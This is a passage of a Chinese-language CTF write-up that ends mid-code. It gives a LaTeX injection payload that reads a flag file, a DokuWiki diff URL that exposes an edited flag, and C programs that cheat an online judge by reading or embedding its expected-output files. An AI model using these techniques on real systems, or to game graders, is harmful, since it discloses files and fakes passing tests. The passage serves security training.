&emsp;&emsp;自己做了一天也没做出来…… 果然这玩意还得是看 [前人的智慧](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

```tex
\catcode `\#=12
\catcode `\_=12
\input{/flag2}
```

## Flag 的痕迹

&emsp;&emsp;[官方文档](https://www.dokuwiki.org/recent_changes) 指出：除了查看历史记录，还能够查看编辑前后的差异信息，所以只需要访问 `/doku.php?id=start&do=diff` 查看编辑记录，就能找到 flag

## 安全的在线测评

### 无法 AC 的题目

&emsp;&emsp;十分简单，直接读评测数据并输出就行了：

```c
#include <stdio.h>

int main() {
    FILE *fp = fopen("/proc/self/cwd/data/static.out", "r");

    char buffer[4096];
    while (fscanf(fp, "%s", buffer) != EOF) {
        printf("%s\n", buffer);
    }

    return 0;
}

```

### 动态数据

&emsp;&emsp;参考 [How to Embed Binary Data in Program Code](http://elm-chan.org/junk/32bit/binclude.html) 的实现，用内联汇编将 `.out` 文件包含进程序中，同时用共享内存计数，判断是第几组数据：

```c
#include <stdio.h>
#include <sys/shm.h>

#define IMPORT(path, name)                                        \
    __asm__(                                                      \
        ".section .rodata\n\t"                                    \
        ".global " #name "_addr\n\t"                              \
        ".balign 16\n"                                            \
        #name "_addr:\n\t"                                        \
        ".incbin " #path "\n\t"                                   \
        ".byte 0\n\t"                                             \
    );                                                            \
    extern const __attribute__((aligned(16))) void *name##_addr;

IMPORT("data/dynamic0.out", dynamic0);
IMPORT("data/dynamic1.out", dynamic1);
IMPORT("data/dynamic2.out", dynamic2);
IMPORT("data/dynamic3.out", dynamic3);
IMPORT("data/dynamic4.out", dynamic4);

int main() {
    int id = shmget(114514, 0x1000, IPC_CREAT | 0666);
    char *addr = (char *) shmat(id, NULL, 0);
```